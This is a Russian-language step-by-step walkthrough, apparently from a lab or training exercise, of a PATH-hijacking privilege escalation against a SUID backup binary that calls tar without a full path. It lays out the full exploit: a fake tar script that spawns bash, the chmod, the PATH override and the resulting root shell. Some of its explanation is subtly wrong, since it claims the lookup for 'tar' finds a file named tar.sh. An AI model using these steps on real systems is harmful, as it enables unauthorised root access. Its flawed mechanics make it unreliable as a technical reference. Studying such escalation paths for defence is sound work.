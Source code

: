 
### Шаг 1: Создаём поддельный `tar`
```bash
cat << 'EOF' > /tmp/tar.sh
#!/bin/bash
/bin/bash
EOF
```

**Пояснения:**  
- `cat << 'EOF' > /tmp/tar.sh` — создаёт новый файл `/tmp/tar.sh` и записывает в него содержимое между `EOF`
- `#!/bin/bash` — шебанг: говорит ОС, что скрипт должен исполняться с помощью `bash`
- `/bin/bash` — запускает интерактивную оболочку `bash`  
  → Поскольку этот скрипт будет запущен от **root** (из-за SUID), запущенный bash — это **root‑оболочка**


### Шаг 2: Делаем скрипт исполняемым
```bash
chmod +x /tmp/tar.sh
```

**Пояснения:**  
- `+x` — добавляет права на исполнение скрипта для всех пользователей (поскольку по умолчанию при создании файла он создается без прав на выполнение)

### Шаг 3: Подменяем переменную окружения PATH
```bash
export PATH="/tmp:$PATH"
```

**Пояснения:**  
- Задаёт переменную `PATH` так, чтобы `/tmp` был **в начале списка директорий**
- Далее, когда оболочка будет искать `tar`, она сначала посмотрит в `/tmp`, и **найдёт `tar.sh`**, а не `/bin/tar`

### Шаг 4: Запускаем уязвимый бинарник
```bash
/usr/local/bin/mybackup
```

**Пояснения:**  
- Скрипт запускается и вызывает `tar` (без пути), значит оболочка выполняет `/tmp/tar.sh`.
- Внутри `tar.sh` вызывается `/bin/bash`, который запускается с **эффективным UID = 0**

### Шаг 5: Получаем root‑шелл:
> В результате эксплойта получаем **интерактивную root-оболочку** `bash`, работающий с **эффективным UID = 0**, т.е. **root**

```bash
whoami  # root
id  # uid=0(root) gid=0(root)
```

---